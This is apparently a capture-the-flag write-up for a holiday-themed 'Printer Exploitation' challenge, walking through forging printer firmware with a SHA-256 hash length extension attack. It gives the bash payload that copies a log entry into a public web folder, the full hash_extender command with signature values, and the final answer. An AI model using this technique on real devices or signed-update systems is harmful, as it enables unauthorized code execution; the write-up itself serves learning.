Printer Exploitation
|
Challenge : Investigate the stolen Kringle Castle printer. Get shell access to read the contents of /var/spool/printer.log. What is the name of the last file printed (with a .xlsx extension)? Find Ruby Cyster in Jack's office for help with this objective. |
||
Difficulty Level :  |
Location : Jack’s Office |
Elf/Troll : Ruby Cyster |
|  |
Hints from Ruby Cyster (Because we solved the objective “Shellcode primer”) :
https://printer.kringlecastle.com/ |
Examination of firmware
Following the grinch's first hint, we go to https://printer.kringlecon.com > Firmware update > Download current firmware and download it. It’s basically a JSON file.
The element firmware has the firmware data in it.

Decode it and save the output to a file named firmware_hhc2021

We determine the file type and we see It’s a zip file so we rename the file to firmware_hhc2021.zip

Building our own payload
We build a bin file with above and name it firmware_ashish.bin.
This will copy the last entry of the xlsx file from /var/spool/printer.log and save in a new file named /app/lib/public/incoming/ashish.
#!/bin/bash
grep xlsx /var/spool/printer.log | tail -n1 > /app/lib/public/incoming/ashish
Provide execute permission on the firmware_ashish.bin 
Zip firmware_ashish.bin to firmware_ashish.zip.

Extend the original firmware payload with our custom payload
We make use of hash extender.
Download the source and build it.
git clone https://github.com/iagox86/hash_extender
cd hash_extender
make

Now we havd the original firmware firmware_hhc2021.zip and custom firmware_ashish.zip. 
Now will need to append our payload firmware_ashish.zip to the original firmware_hhc2021.zip.
Following the readme on https://github.com/iagox86/hash_extender.
Below would be our inputs to the hash_extender.
| Hash Extender Switch | Spplied values and explaination |
|---|---|
| --file | firmware_hhc2021.zip The original payload from printer portal in zipped format |
| --append |
$(cat firmware.zip | xxd -p -c 99999) HEX representation of our payload in the zip file (firmware_ashish.zip) |
| --append-format |
hex (because we are appending a HEX value) |
| --secret |
16 (Present in the original JSON file we downloaded from the printer portal) |
| --format |
sha256 (Present in the original JSON file we downloaded from the printer portal) |
| --signature |
2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97 (Present in the original JSON file we downloaded from the printer portal) |
| --out-data-format |
hex |
We fire up hash_extender with the above switch values :
./hash_extender --file=firmware_hhc2021.zip --secret=16
--signature ="2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97"
--append=$(cat firmware_ashish.zip | xxd -p -c 99999) --format sha256 --out-data-format=hex
This produced a new string and new signature.

The new string produced is in hex format (as we specified in the --out-data-format).
So, we need to use Cyberchef to convert the hex to base64.

This output from CyberChef has our appended paylod to get the file name.
Now we update the original firmware_export.json with the new payload and the new signature we got above.

Now we upload the new firmware-export.json back to the portal.
We browse the file https://printer.kringlecastle.com/incoming/ashish
File "ashish" is downloaded and we can see the xlsx file name in it.

We submit “Troll_Pay_Chart.xlsx” as the answer to this objective and it is accepted.